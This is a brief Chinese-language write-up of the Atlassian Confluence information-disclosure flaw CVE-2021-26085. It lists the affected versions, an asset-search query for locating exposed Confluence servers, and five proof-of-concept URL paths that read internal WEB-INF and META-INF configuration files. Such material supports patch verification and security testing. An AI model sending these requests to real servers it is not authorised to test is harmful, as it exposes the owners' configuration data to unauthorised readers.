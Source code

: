 # Atlassian Confluence 敏感信息泄露 CVE-2021-26085

# Atlassian Confluence 敏感信息泄露 CVE-2021-26085

## 漏洞描述

Confluence 是一个专业的企业知识管理与协同软件，也可以用于构建企业 wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。该漏洞不是任意文件读取，只能读取一些 confluence 的配置文件，影响有限。

参考链接：

- https://jira.atlassian.com/browse/CONFSERVER-67893

## 漏洞影响

```
version < 7.4.10
7.5.0 ≤ version < 7.12.3
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

poc：

```
/s/123cfx/_/;/WEB-INF/web.xml
/s/123cfx/_/;/WEB-INF/decorators.xml
/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.properties
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.xml
```


